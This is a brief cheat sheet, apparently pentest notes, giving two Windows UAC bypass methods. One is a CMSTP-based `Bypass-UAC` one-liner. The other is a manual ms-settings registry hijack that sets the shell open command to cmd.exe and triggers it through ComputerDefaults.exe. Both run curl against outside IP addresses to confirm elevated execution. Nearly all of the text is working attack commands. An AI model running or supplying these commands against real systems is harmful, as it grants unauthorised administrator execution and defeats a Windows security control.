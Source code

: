 ### CMSTP

- Invoke and run: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

### Manual Approach

    New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
    Start-Process "C:\Windows\System32\ComputerDefaults.exe"
